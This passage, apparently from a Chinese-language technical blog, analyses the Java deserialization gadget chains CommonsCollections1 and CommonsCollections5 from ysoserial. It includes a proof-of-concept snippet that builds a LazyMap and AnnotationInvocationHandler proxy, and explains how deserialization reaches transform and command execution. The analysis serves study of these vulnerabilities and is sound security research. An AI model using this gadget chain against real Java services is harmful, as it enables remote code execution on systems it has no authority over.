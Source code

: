 接下来结合漏洞poc分析下漏洞触发的流程

```java
Map innerMap = new HashMap();
Map lazyMap = org.apache.commons.collections.map.LazyMap.decorate(innerMap, transformerChain);
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructors()[0];
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
Map map = (Map) Proxy.newProxyInstance(lazyMap.getClass().getClassLoader(),lazyMap.getClass().getInterfaces(),invocationHandler);
Object instance = constructor.newInstance(Override.class, map);
```
instance对象在被反序列化的过程中对map执行了`entrySet`，由于这里的map是代理对象，所以会调用`Proxy.newProxyInstance`第三个参数传入对象invocationHandler的invoke方法，而此时invocationHandler对象是由lazyMap包装后的`AnnotationInvocationHandler`对象，也就是调用了这个对象的invoke方法，这个对象的memberValue就是lazyMap，invoke方法开始对lazyMap进行处理，此时的var4刚好else的条件中（具体invoke方法的method参数可以用代码中的ProxyTest类测试一下），于是执行对lazyMap对象进行了get操作导致了命令执行

触发transform方法的方式不止这两种有很多，后边会遇到，利用各种类去执行到transform方法。


### CommonsCollections5

CommonsCollections5和CommonsCollections1大部分相同，只是换用新的类(BadAttributeValueExpException)触发ChainedTransformer的transform方法

ysoserial中CommonsCollections5的利用条件是This only works in JDK 8u76 and WITHOUT a security manager，8u76版本之后BadAttributeValueExpException类加入了自己的readObject，漏洞的触发点也是存在于readObject函数中

![-w806](media/15662017023838/15667519810890.jpg)

在反序列化的过程取到初始化对象后进行判断如果不为`null`，不是`String`类型，并且安全管理器是null的情况下就会对对象进行toString操作,那么找到一个类的toString方法会调用valobj的get方法，那么valobj为LazyMap时就会触发transform函数导致命令执行。

